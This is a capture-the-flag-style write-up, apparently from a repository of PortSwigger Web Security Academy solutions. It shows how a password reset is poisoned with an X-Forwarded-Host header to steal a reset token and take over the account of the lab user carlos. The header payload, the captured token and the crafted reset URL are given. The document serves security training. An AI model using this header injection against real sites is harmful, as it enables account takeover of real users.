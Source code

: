 # Password reset poisoning via middleware

## Description

[This lab](https://portswigger.net/web-security/authentication/other-mechanisms/lab-password-reset-poisoning-via-middleware) is vulnerable to password reset poisoning. The user carlos will carelessly click on any links in emails that he receives.

## Reproduction and proof of concept

1. With Burp running, investigate the password reset functionality. Observe that a link containing a unique reset token is sent via email.
2. Send the ``POST /forgot-password`` request to Burp Repeater. Notice that the ``X-Forwarded-Host`` header is supported, and you can use it to point the dynamically generated reset link to an arbitrary domain.
3. Go to the exploit server and make a note of your exploit server URL.
4. Go back to the request in Burp Repeater and add the ``X-Forwarded-Host`` header with your exploit server URL:

```
X-Forwarded-Host: //exploit-0a6900b503fbfa43c55c132a015300bb.exploit-server.net
```

5. Change the ``username`` parameter to ``carlos`` and send the request.
6. Go to the exploit server and open the access log. You should see a ``GET /forgot-password`` request, which contains the victim's token as a query parameter. Make a note of this token.

```text
temp-forgot-password-token=DbzZ4lHeIfiXFSg7vHKSMl74XnyXDXKV
```

7. Go back to your email client and copy the valid password reset link (not the one that points to the exploit server). Paste this into your browser and change the value of the ``temp-forgot-password-token`` parameter to the value that you stole from the victim.

```text
https://0af600a703a2fac9c55d145800d00068.web-security-academy.net/forgot-password?temp-forgot-password-token=DbzZ4lHeIfiXFSg7vHKSMl74XnyXDXKV
```

8. Load this URL and set a new password for Carlos's account.
9. Log in to Carlos's account using the new password to solve the lab.

## Exploitability

An attacker can log in to `wiener:peter`. Any emails sent to this account can be read via the email client on the exploit server. The attacker will need to log in to Carlos's account.  
